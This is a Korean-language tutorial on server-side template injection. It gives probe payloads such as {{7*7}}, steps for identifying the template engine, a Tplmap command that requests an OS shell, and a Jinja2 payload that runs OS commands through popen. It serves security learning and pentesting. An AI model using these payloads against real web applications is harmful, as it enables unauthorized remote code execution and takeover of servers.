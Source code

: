 

# SSTI (서버 사이드 템플릿 인젝션) 가이드

SSTI(Server-Side Template Injection)는 공격자가 웹 애플리케이션의 템플릿에 악의적인 코드를 주입하여, 서버 측에서 해당 코드가 실행되도록 만드는 심각한 취약점입니다. 성공 시 원격 코드 실행(RCE)으로 이어져 시스템을 완전히 장악할 수 있습니다.

https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#ssti-in-go

---

### **1. 취약점 식별: 간단한 연산 시도**

- **목표:** 웹 애플리케이션이 사용자 입력을 템플릿의 일부로 처리하는지 확인합니다.
- **전략:** 다양한 템플릿 엔진에서 사용하는 문법으로 간단한 수학 연산(예: `7*7`)을 포함한 페이로드를 삽입하고, 서버가 이 연산을 수행하여 `49`를 반환하는지 확인합니다.

```text(title="SSTI 식별용 기본 페이로드")
${7*7}
{{7*7}}
<%= 7*7 %>
#{7*7}
```

- **테스트 위치:**
  - URL 쿼리 파라미터 (`?name=...`)
  - POST 요청의 폼 필드 (사용자 이름, 검색어 등)
  - HTTP 헤더 (`User-Agent`, `Referer` 등)
  - 쿠키 값

---

### **2. 템플릿 엔진 식별**

- **목표:** 어떤 템플릿 엔진(Jinja2, FreeMarker, Velocity 등)이 사용되는지 정확히 파악하여, 해당 엔진에 맞는 익스플로잇 페이로드를 준비합니다.
- **전략:** 특정 문법에만 반응하는 페이로드를 순차적으로 테스트하여 엔진의 종류를 좁혀나갑니다. 아래는 HackTricks에서 제공하는 의사 결정 다이어그램을 기반으로 한 식별 과정입니다.

![SSTI 엔진 식별 플로우차트](https://book.hacktricks.wiki/assets/SSTI-flowchart.png)
*(출처: HackTricks)*

1.  `{{7*'7'}}` -> **Jinja2** (결과: `7777777`), **Twig** (결과: `49`)
2.  `${7*7}` -> **FreeMarker** (결과: `49`)
3.  `<%= 7*7 %>` -> **Ruby (ERB)** (결과: `49`)
4.  `#{7*7}` -> **Java (Velocity)** (결과: `49`)

---

### **3. 익스플로잇: 원격 코드 실행 (RCE)**

- **목표:** 식별된 템플릿 엔진에 맞는 알려진 페이로드를 사용하여 OS 명령어를 실행하는 셸을 획득합니다.

#### **자동화 도구: Tplmap**
가장 효율적인 방법은 `Tplmap`을 사용하는 것입니다. 이 도구는 엔진 식별부터 익스플로잇까지의 전 과정을 자동화해줍니다.

- **[Tplmap GitHub 링크](https://github.com/epinna/tplmap)**

```bash(title="Tplmap을 이용한 RCE")
# -u: 취약한 URL (퍼징할 위치에 * 표시)
# --os-shell: OS 셸 획득 시도
python3 tplmap.py -u "http://vulnerable.com/page?name=*" --os-shell
```

#### **수동 익스플로잇 (예: Python/Jinja2)**
엔진이 식별되면, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) 같은 저장소에서 해당 엔진에 맞는 RCE 페이로드를 찾아 사용할 수 있습니다.

```python(title="Jinja2 RCE 페이로드 예시")
# OS 모듈을 임포트하여 명령어 실행
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

